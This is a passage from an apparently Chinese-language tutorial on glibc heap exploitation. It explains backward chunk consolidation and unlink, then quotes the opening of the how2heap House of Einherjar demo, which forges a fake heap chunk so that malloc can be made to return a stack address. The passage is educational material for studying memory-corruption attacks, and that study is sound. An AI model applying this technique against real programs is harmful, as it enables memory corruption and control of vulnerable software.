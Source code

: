 先把前一个堆块的位置找到即 p-p->prev\_inuse

修改 P -> size 为 P -> size + FD -> size(以此来表示 size 大小上已经合并)

让 FD 进入 unlink 函数

### unlink 操作

我们使用 how2heap 中的 House of einherjar 来进行演示

demo 如下：

```plain
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>

int main()
{
    /*
     * This modification to The House of Enherjar, made by Huascar Tejeda - @htejeda, works with the tcache-option enabled on glibc-2.31.
     * The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc().
     * It has the additional requirement of a heap leak. 
     * 
     * After filling the tcache list to bypass the restriction of consolidating with a fake chunk,
     * we target the unsorted bin (instead of the small bin) by creating the fake chunk in the heap.
     * The following restriction for normal bins won't allow us to create chunks bigger than the memory
     * allocated from the system in this arena:
     *
     * https://sourceware.org/git/?p=glibc.git;a=commit;f=malloc/malloc.c;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c */

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("Welcome to House of Einherjar 2!\n");
    printf("Tested on Ubuntu 20.04 64bit (glibc-2.31).\n");
    printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

    printf("This file demonstrates a tcache poisoning attack by tricking malloc into\n"
           "returning a pointer to an arbitrary location (in this case, the stack).\n");

    // prepare the target
    intptr_t stack_var[4];
    printf("\nThe address we want malloc() to return is %p.\n", (char *) &stack_var);

    printf("\nWe allocate 0x38 bytes for 'a' and use it to create a fake chunk\n");
    intptr_t *a = malloc(0x38);

    // create a fake chunk
    printf("\nWe create a fake chunk preferably before the chunk(s) we want to overlap, and we must know its address.\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");

    a[0] = 0;    // prev_size (Not Used)
    a[1] = 0x60; // size
    a[2] = (size_t) a; // fwd
    a[3] = (size_t) a; // bck
```